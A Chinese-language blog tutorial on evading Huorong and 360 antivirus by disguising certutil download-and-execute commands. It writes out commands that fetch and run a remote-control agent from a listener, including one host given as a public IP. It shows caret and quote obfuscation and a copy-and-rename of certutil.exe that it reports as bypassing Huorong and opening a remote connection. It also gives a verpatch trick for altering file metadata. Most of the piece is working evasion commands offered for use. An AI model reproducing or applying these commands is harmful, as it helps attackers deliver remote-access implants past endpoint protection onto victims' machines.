










免杀学习-从指令绕过开始(2)

* * *

# 免杀学习-从指令绕过开始(2)

# certutil指令绕过

上次我们的免杀成功的绕过了联网360，但在半个月后就被无情的杀掉了，原因和火绒的报错一致是因为敏感指令certutil导致了报警，那么我们本次学习的主题就是如何绕过certutil的报警

那我们先看看通过cetutil指令进行下载的时候，他们的参数都有着什么作用

```plain
-f
覆盖现有文件。
有值的命令行选项。后面跟要下载的文件 url。
-split
保存到文件。
无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。
-URLCache
显示或删除URL缓存条目。
无值的命令行选项。
（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）
```

可以在命令后面加上 delete指令删除缓存

查看缓存

```plain
certutil -urlcache *
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804164455-2fabbbda-32a3-1.png)

看个缓存360直接报错了，因此可以判断是否目前360对于certutil的防御策略中有一项是针对我们的certutil的字符进行限制

执行删除缓存

```plain
certutil -urlcache * delete
```

## 绕过火绒

我们首先看看破晓中给我们的certutil的下载语句

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

我们首先看看下载语句

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804164825-acc0e10e-32a3-1.png)

会直接报警，防护提示显示是利用certutil下载可执行文件

### 语句上混淆（×）

我们调换四个带横线句子的顺序看看能否完成绕过

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

无论怎么换，依旧报警即无法实现原有的字符混淆

### 尝试添加干扰参数（×）

添加一些无关参数

```plain
certutil -a -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

添加了一些无关字段还是会报警

### 尝试从命令执行语句的构造上绕过（×）

除了常见的&和|命令外通过资料查找发现windows存在一些字符在命令执行的时候不会影响原语句的执行如：

```plain
p^i^n^g www.baidu.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165330-629dee40-32a4-1.png)

还有一个是利用双引号绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165358-732a3ac0-32a4-1.png)

那么我们根据其特性进行类似构造

```plain
^c""^e^r^t""u^ti^l -u^r"l""""cache -gmt -split -f ht""tp://1"2"7.0.0.1:13""38/d/pzxsnoqd pzxsn""oqd.^e^""x""^e
```

炸裂还是不行

### 给certutil换个路径和文件名（√）

```plain
更换
copy c:\windows\system32\certutil.exe c.exe
下载
a -urlcache -split -f http://43.143.224.232:1338/d/pzxsnoqd pzxsnoqd.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165429-85dd4220-32a4-1.png)

终于成功了，nice

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165456-95e09442-32a4-1.png)

远程连接也是成功的，实现了火绒的绕过

## 360绕过

那三板斧直接先给他来一下，既然火绒能绕过，360不得试试同样的方法行不行

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165520-a3fe58b6-32a4-1.png)

及时将前面绕过火绒的四个方法排列组合也不太行，寻找别的方法

### 多次命令路径的切换（×）

将我们复制的a，再次复制命名为b再次执行还是报警

推测可能是分析了命令执行的行为

### 尝试动态绕过（⚪）

这里可能不算真正意义上的手动绕过我们利用工具一个三方的小巧好用的修改工具verpatch，经过测试只需要修改程序版本信息中InternalName字段的值，这里我们InternalName修改为空看看情况。

```plain
verpatch.exe zzz.exe /s InternalName ""
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165535-ad0c7c80-32a4-1.png)

但最离谱的是我们在执行木马的时候居然报警了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165551-b6d266d0-32a4-1.png)

这是非常炸裂的

以jpg文件下载下来，执行依旧不行

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804165609-c131d214-32a4-1.png)

# 参考文献

```plain
https://www.freebuf.com/articles/endpoint/334548.html

https://xz.aliyun.com/t/9737#toc-1
```
